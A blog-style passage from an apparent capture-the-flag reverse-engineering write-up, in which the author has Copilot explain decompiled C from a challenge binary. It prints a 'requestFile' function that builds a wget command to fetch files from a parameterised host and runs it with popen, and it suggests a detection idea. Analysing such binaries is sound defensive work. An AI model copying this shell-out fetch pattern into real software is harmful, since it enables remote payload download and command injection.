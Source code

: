 Highlighting the first section of the code, we can ask copilot to explain it to us. I don't know C, so this is good and useful.

![Teach me Copilot]({{site.url}}/images/escaperoom_02.png){: .center-image }

So that was pretty digestible. You can highlight a subset of code and get a more concise explanation. If we ask it to explain the `while( true )` section, we get the following explanation

```
<!-- Here is the explanation for the code above:
1. The program will make 4 keys.
2. It will request a file using one of the 4 keys.
3. It will set the path to the file using the key and the path.
4. It will open the file.
5. It will read the file size and store it in lVar3.
6. It will allocate memory for the file.
7. It will decrypt the message.
8. It will process the message.
9. If the processing is successful, it will sleep for 1 second.
10. It will repeat this process forever. -->
```

This is great. We can see that it is using the `requestFile` function to make the requests. Let's look at that function.

```c
void requestFile(undefined8 param_1)

{
  undefined8 uVar1;
  FILE *__stream;
  long in_FS_OFFSET;
  char local_128 [280];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  uVar1 = encode(*(undefined8 *)(lookupMod + (long)currentIndex * 8));
  sprintf(local_128,"wget -O %s%s http://%s/n/%s",&DAT_00403db6,
          *(undefined8 *)(lookupFile + (long)currentIndex * 8),param_1,uVar1);
  puts(local_128);
  __stream = popen(local_128,"r");
  pclose(__stream);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

I don't need copilot to tell this is calling `wget` to retrieve the file instead of using something custom built into the binary. This might be an interesting detection opportunity, wget child processes by single character binaries or the like.
